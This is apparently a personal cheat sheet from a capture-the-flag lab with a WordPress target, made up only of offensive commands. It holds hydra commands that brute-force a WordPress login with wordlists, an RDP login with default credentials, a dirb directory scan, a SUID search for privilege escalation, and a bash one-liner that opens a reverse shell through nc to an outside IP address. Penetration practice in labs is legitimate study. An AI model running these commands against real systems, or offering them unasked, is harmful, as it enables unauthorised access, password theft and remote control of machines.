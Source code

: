 RDP: xfreerdp /u:admin /p:password /cert:ignore /v:MACHINE_IP /workarea
 hydra -L fsocity.dic -p test 10.10.202.57 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30

hydra -l Elliot -P /usr/share/wordlists/rockyou.txt 10.10.202.57 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password" -t 30

scan common extensions
dirb http://10.10.154.46/ /usr/share/wordlists/dirb/big.txt -x /usr/share/wordlists/dirb/extensions_common.txt -o dirb_big_ext.txt

BASH Rev shell
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.4.5.5 2345 >/tmp/f" > shell.sh

find suid
find / -type f -perm -4000 2>/dev/null
